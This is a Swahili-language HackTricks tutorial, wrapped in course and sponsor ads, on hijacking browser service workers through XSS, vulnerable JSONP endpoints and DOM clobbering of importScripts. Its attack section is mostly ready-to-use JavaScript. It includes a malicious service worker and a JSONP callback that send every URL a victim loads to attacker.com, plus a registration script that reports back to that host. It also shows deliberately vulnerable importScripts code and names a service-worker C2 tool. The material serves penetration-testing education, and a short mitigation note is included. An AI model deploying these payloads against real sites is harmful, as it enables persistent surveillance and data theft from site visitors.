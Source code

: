 # Kufaidika na Wafanyakazi wa Huduma

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

* Je, unafanya kazi katika **kampuni ya usalama wa mtandao**? Je, ungependa kuona **kampuni yako ikionekana katika HackTricks**? Au ungependa kupata **toleo jipya zaidi la PEASS au kupakua HackTricks kwa PDF**? Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa kipekee wa [**NFTs**](https://opensea.io/collection/the-peass-family)
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* **Jiunge na** [**💬**](https://emojipedia.org/speech-balloon/) [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **nifuatilie** kwenye **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**repo ya hacktricks**](https://github.com/carlospolop/hacktricks) **na** [**repo ya hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Pata udhaifu unaofaa zaidi ili uweze kuzirekebisha haraka. Intruder inafuatilia eneo lako la shambulio, inatekeleza uchunguzi wa vitisho wa kujitokeza, inapata masuala katika mfumo wako mzima wa teknolojia, kutoka kwa APIs hadi programu za wavuti na mifumo ya wingu. [**Jaribu bure**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) leo.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## Taarifa Msingi

**Mfanyakazi wa huduma** ni skripti inayotekelezwa na kivinjari chako kwa nyuma, tofauti na ukurasa wowote wa wavuti, ikiruhusu vipengele ambavyo havihitaji ukurasa wa wavuti au ushiriki wa mtumiaji, hivyo kuongeza uwezo wa **kutumia nje ya mtandao na usindikaji wa nyuma**. Taarifa maelezo kuhusu wafanyakazi wa huduma zinaweza kupatikana [hapa](https://developers.google.com/web/fundamentals/primers/service-workers). Kwa kudukua wafanyakazi wa huduma ndani ya kikoa dhaifu cha wavuti, wadukuzi wanaweza kupata udhibiti juu ya mwingiliano wa muathiriwa na kurasa zote ndani ya kikoa hicho.

### Kuangalia Wafanyakazi wa Huduma Waliopo

Wafanyakazi wa huduma waliopo wanaweza kuangaliwa katika sehemu ya **Wafanyakazi wa Huduma** ya kichupo cha **Maombi** katika **Zana za Watengenezaji**. Njia nyingine ni kutembelea [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) kwa mtazamo zaidi wa kina.

### Arifa za Kupokea

**Ruhusa za arifa za kupokea** zina athari moja kwa moja kwa uwezo wa **mfanyakazi wa huduma** kuwasiliana na seva bila ushiriki wa moja kwa moja wa mtumiaji. Ikiwa ruhusa zinakataliwa, inapunguza uwezo wa mfanyakazi wa huduma kusababisha tishio endelevu. Kwa upande mwingine, kutoa ruhusa kunazidisha hatari za usalama kwa kuwezesha kupokea na kutekeleza udanganyifu wa uwezekano.

## Shambulio la Kuunda Mfanyakazi wa Huduma

Ili kutumia udhaifu huu, unahitaji kupata:

* Njia ya **kupakia faili za JS za kiholela** kwenye seva na **XSS ya kupakia mfanyakazi wa huduma** wa faili ya JS iliyopakiwa
* **Ombi la JSONP lenye udhaifu** ambapo unaweza **kudhibiti matokeo (na nambari ya JS ya kiholela)** na **XSS** ya **kupakia JSONP na mzigo** ambao utapakia mfanyakazi wa huduma mbaya**.

Katika mfano ufuatao, nitawasilisha nambari ya kujiandikisha mfanyakazi wa huduma mpya ambayo itasikiliza tukio la `fetch` na **kupeleka URL zote zilizopakiwa kwa seva ya wadukuzi** (hii ndio nambari ambayo ungehitaji **kupakia** kwenye **seva** au kupakia kupitia **jibu la JSONP** lenye udhaifu):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
Na hii ndio nambari ambayo itasajili mfanyakazi (nambari ambayo unapaswa kuweza kutekeleza kwa kutumia XSS). Katika kesi hii, ombi la GET litatumwa kwenye seva ya mshambuliaji ikitoa taarifa ikiwa usajili wa mfanyakazi wa huduma ulifanikiwa au la:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
Katika kesi ya kutumia vibaya kichwa cha JSONP kinachoweza kudhurika, unapaswa kuweka thamani ndani ya `var sw`. Kwa mfano:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
Kuna **C2** iliyotengwa kwa **utumiaji mbaya wa Wafanyakazi wa Huduma** inayoitwa [**Shadow Workers**](https://shadow-workers.github.io) ambayo itakuwa muhimu sana katika kutumia udhaifu huu.

Mwongozo wa **24-saa wa cache** unapunguza maisha ya **mfanyakazi wa huduma (SW)** uliopotoka au uliokumbwa na shambulio hadi masaa 24 baada ya kurekebisha udhaifu wa XSS, ikizingatiwa hali ya mteja mtandaoni. Ili kupunguza udhaifu, waendeshaji wa tovuti wanaweza kupunguza Muda wa Kuishi wa Skripti ya SW (TTL). Waendelezaji pia wanashauriwa kuunda [**kifungo cha kuzima mfanyakazi wa huduma**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) kwa kuzima haraka.

## Kutumia `importScripts` katika SW kupitia DOM Clobbering

Kazi ya **`importScripts`** inayoitwa kutoka kwa Mfanyakazi wa Huduma inaweza **kuagiza skripti kutoka kwenye kikoa tofauti**. Ikiwa kazi hii inaitwa kwa kutumia **parameter ambao mshambuliaji anaweza** kubadilisha, ataweza **kuagiza skripti ya JS kutoka kwenye kikoa chake** na kupata XSS.

**Hii hata inapita kinga ya CSP.**

**Mfano wa nambari yenye udhaifu:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### Kwa kutumia DOM Clobbering

Kwa habari zaidi kuhusu DOM Clobbering angalia:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

Ikiwa URL/kikoa ambapo SW inatumia kuita **`importScripts`** iko **ndani ya kipengele cha HTML**, ni **inawezekana kuihariri kupitia DOM Clobbering** ili SW iweze **kupakia skripti kutoka kwenye kikoa chako mwenyewe**.

Kwa mfano wa hili angalia kiungo cha marejeleo.

## Marejeo

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

<figure><img src="/.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

Tafuta udhaifu unaofaa zaidi ili uweze kuyatatua haraka. Intruder inafuatilia eneo lako la shambulio, inafanya uchunguzi wa vitisho wa kujitokeza, inapata masuala katika mfumo wako wa teknolojia mzima, kutoka kwa APIs hadi programu za wavuti na mifumo ya wingu. [**Jaribu bure**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks) leo.

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}


<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Je, unafanya kazi katika **kampuni ya usalama wa mtandao**? Je, ungependa kuona **kampuni yako ikitangazwa katika HackTricks**? Au ungependa kupata ufikiaji wa **toleo jipya zaidi la PEASS au kupakua HackTricks kwa muundo wa PDF**? Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* **Jiunge na** [**💬**](https://emojipedia.org/speech-balloon/) [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **nifuate** kwenye **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PR kwenye** [**repo ya hacktricks**](https://github.com/carlospolop/hacktricks) **na** [**repo ya hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
